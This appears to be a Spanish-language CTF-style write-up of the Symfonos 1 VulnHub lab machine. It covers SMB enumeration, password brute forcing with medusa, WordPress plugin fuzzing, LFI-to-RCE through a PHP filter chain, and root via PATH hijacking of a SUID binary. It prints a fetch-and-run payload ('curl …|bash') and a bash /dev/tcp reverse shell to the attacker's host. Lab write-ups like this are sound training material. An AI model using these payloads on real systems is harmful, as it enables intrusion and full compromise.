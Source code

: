```yaml
---
layout: single
title: Symfonos1 - VulnHub
excerpt: "Symfonos 1 es una máquina que contempla una vulnerabilidad llamada LFI(Local File Inclusion) que nos permite ganar acceso remoto a la máquina. Luego la escalada de privilegios es directamente a root por una mala configuración de permisos de archivos y una forma incorrecta de llamar al archivo \"curl\"."
date: 2023-11-02
classes: wide
header:
  teaser: /assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub 
  - cxdxnt
tags:  
  - suid
  - rpcbind
  - mount
---
```

![](/assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png)


Symfonos 1 es una máquina que contempla una vulnerabilidad llamada LFI(Local File Inclusion) que nos permite ganar acceso remoto a la máquina. Luego la escalada de privilegios es directamente a root por una mala configuraciónde permisos de archivos y una forma incorrecta de llamar al archivo "curl".


## Enumeracion

Empezamos con un reconocimiento de puertos y servicios a través de la herramienta nmap. En el cual logramos detectar varios servicios.

```python
# Nmap 7.93 scan initiated Mon Oct 30 07:39:39 2023 as: nmap -sCV -p22,25,80,139,445 -oN scanvuln.nmap 192.168.56.13
Nmap scan report for 192.168.56.13
Host is up (0.00032s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab5b45a70547a50445ca6f18bd1803c2 (RSA)
|   256 a05f400a0a1f68353ef45407619fc64a (ECDSA)
|_  256 bc31f540bc08584bfb6617ff8412ac1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:6F:15:D8 (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h20m01s, deviation: 2h53m12s, median: -3h00m01s
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2023-10-30T02:39:50-05:00
| smb2-time: 
|   date: 2023-10-30T07:39:50
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 30 07:39:52 2023 -- 1 IP address (1 host up) scanned in 12.68 seconds
```

## Analisis 

El comienzo de la enumeración va a ser dirigido a través del servicio SAMBA, a la hora de listar los directorios observamos que uno de ellos contiene el nombre de un usuario del sistema.Para aclarar, también permite iniciar sesión como un usuario nulo.

![](/assets/images/vulnhub-writeup-symfonos1/sambaDirectorios.png)

Al ingresar y listar el único archivo que se presenta, nos informa que hay 3 contraseñas típicas que los usuarios están utilizando.


![](/assets/images/vulnhub-writeup-symfonos1/archivosSamba.png)

Utilizaremos "medusa" para ejercer fuerza bruta al usuario "helios" con las 3 contraseñas que nos indican.


```bash
➜  data medusa -M smbnt  -u helios -P password.txt -h 192.168.56.13 -v 4
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT FOUND: [smbnt] Host: 192.168.56.13 User: helios Password: qwerty [SUCCESS (ADMIN$ - Share Unavailable)]
```

Con las credenciales del usuario "helios" podemos ingresar al directorio "helios" del servicio SAMBA. Que nos informa de una ruta del sistema.

![](/assets/images/vulnhub-writeup-symfonos1/listarDirectorios.png)

### Wordpress

Al ingresar al directorio "/h3l105" podemos analizar que se trata de un sistema de gestión de contenidos llamada WordPress, por lo que procedo a enumerar plugins y encuentro algunos interesantes.

```bash

➜  data ffuf -w ../../scripts/plugins.txt -u http://symfonos.local/h3l105/wp-content/plugins/FUZZ -t 100 -c  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://symfonos.local/h3l105/wp-content/plugins/FUZZ
 :: Wordlist         : FUZZ: ../../scripts/plugins.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

akismet                 [Status: 301, Size: 344, Words: 20, Lines: 10, Duration: 0ms]
mail-masta              [Status: 301, Size: 347, Words: 20, Lines: 10, Duration: 7ms]
site-editor             [Status: 301, Size: 348, Words: 20, Lines: 10, Duration: 0ms]
:: Progress: [80086/80086] :: Job [1/1] :: 3659 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
```

"mail-casta" y "site-editor" son vulnerables a Local File Inclusion(LFI). Pero solamente "mail-casta" nos deja interactuar con wrappers. Por lo que utilizaré "php_filter_chain_generator" que genera una especie de cadenas de filtros php para obtener un RCE.



```bash

➜  exploits git clone https://github.com/synacktiv/php_filter_chain_generator
Clonando en 'php_filter_chain_generator'...
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (11/11), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 11 (delta 4), reused 10 (delta 4), pack-reused 0
Recibiendo objetos: 100% (11/11), 5.23 KiB | 5.23 MiB/s, listo.
Resolviendo deltas: 100% (4/4), listo.
➜  exploits cd php_filter_chain_generator 
➜  php_filter_chain_generator git:(main) python3 php_filter_chain_generator.py --chain "<?php system('curl 192.168.56.1|bash');?>"
➜  php_filter_chain_generator git:(main) cat index.html
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.1/443 0>&1
```

El contenido generado por la herramienta lo ponemos en el parámetro pl, y nos ponemos en escucha con python3 -m http-server 80 para que pueda tomar el archivo index.html. Sin olvidar de ponernos en escucha en el puerto 443 con nc.
```bash

http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=<Cadena de filtros PHP generado>.

```

## Shell - helios

Al ganar acceso remoto a la máquina procedemos a enumerar archivos SUID. Observamos que hay un archivo que llama la atención.

```bash
helios@symfonos:/dev/shm$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/opt/statuscheck
/bin/mount
/bin/umount
/bin/su
/bin/ping
```

Al analizar con strings el archivo statuscheck observamos que está llamando incorrectamente al programa curl, por lo que podemos llegar a realizar un ataque llamado Path Hijacking.

```bash

helios@symfonos:/dev/shm$ strings /opt/statuscheck 
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
curl -I H
http://lH
ocalhostH
AWAVA
AUATL
[]A\A]A^A_
;*3$"
```

Procedemos a inicializar el ataque de la siguiente manera.

```bash

helios@symfonos:/dev/shm$ export PATH=/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
helios@symfonos:/dev/shm$ cat curl 
/bin/sh
helios@symfonos:/dev/shm$ /opt/statuscheck 
# whoami
root
```
